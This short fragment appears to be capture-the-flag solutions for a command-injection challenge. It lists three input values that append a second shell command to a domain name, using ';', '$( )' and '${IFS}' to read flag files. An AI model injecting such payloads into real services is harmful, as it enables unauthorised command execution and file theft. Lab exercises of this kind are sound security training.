 0-flag: google.com; cat /0-flag.txt
1-flag: google.com$(cat /etc/1-flag.txt)
2-flag: google.com;cat${IFS}/*/*2-flag.txt*